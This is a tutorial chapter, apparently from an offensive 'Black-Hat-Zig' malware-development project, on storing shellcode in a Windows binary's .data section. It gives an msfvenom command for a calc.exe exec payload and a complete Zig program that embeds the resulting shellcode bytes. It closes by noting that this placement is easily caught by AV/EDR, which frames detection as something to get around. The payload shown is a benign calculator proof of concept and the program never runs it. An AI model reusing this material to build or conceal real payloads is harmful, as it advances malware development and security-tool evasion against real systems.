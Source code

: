 # .data Section

## TL;DR

[See the code example](https://github.com/CX330Blake/Black-Hat-Zig/tree/main/Payload-Placement/dot_data_section)

## What Is Payload?

To execute the malicious code, we must load the malicious stuff into the binary somehow. And this malicious stuff, is the so called "payload" or "shellcode".

We'll use the payload generated by MSFvenom for every examples in "Payload Placement". You can copy and paste the following command to generate the payload first. But since it's generated in C array format, I'll recommend you just copy and paste the corresponding payload in my code, which is already translated from C array to Zig array by AI.

```bash
msfvenom -p windows/x64/exec CMD=calc.exe -f c
```

## Sections

For those who visited this project, I'll assume you already know what is "section" and know the basics of the following common sections.

- .bss section
  - Uninitialized global variables
- .data section
  - Initialized global variables
- .rdata section
  - Read-only data (strings, vtable, etc)
- .text section
  - Code segment, stores machine codes
- .rsrc section
  - Resource section, only exists on Windows. It often stores graph, icon, etc

For more details: [Special Sections - MSDN](https://learn.microsoft.com/en-us/windows/win32/debug/pe-format#special-sections).

## Code Walkthrough

In this chapter, I will show you how to store out payload into .data section.

```zig title="main.zig"
const std = @import("std");
const print = std.debug.print;

// msfvenom calc shellcode
// msfvenom -p windows/x64/exec CMD=calc.exe -f c
// .data saved payload (var data goes to .data section in Zig)
var data_section_payload = [_]u8{
    0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
    0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
    0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
    0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
    0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
    0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
    0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
    0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
    0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
    0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
    0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
    0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
    0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
    0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
    0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
    0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
    0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48,
    0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
    0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5,
    0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
    0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0,
    0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
    0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00,
};

/// Helper function to wait for Enter key
/// Similar usage as `getchar()` in C
fn waitForEnter() void {
    var buffer: [256]u8 = undefined;
    _ = std.io.getStdIn().reader().readUntilDelimiterOrEof(buffer[0..], '\n') catch {};
}

pub fn main() !void {
    print("[i] Payload address: 0x{X} \n", .{@intFromPtr(&data_section_payload)});
    print("[i] Data size: {d} bytes\n", .{data_section_payload.len});
    print("[i] Payload stored in .data section (read-write)\n", .{});
    print("[#] Press <Enter> To Quit ...", .{});
    waitForEnter();
}
```

Actually, it's easy to put the payload in .data section, just declare a global var and that's it! Although it's simple, it's also easy for malware analyst and reverse engineer to notice that. And it hash high possibility to be detected for most of the AV/EDR.
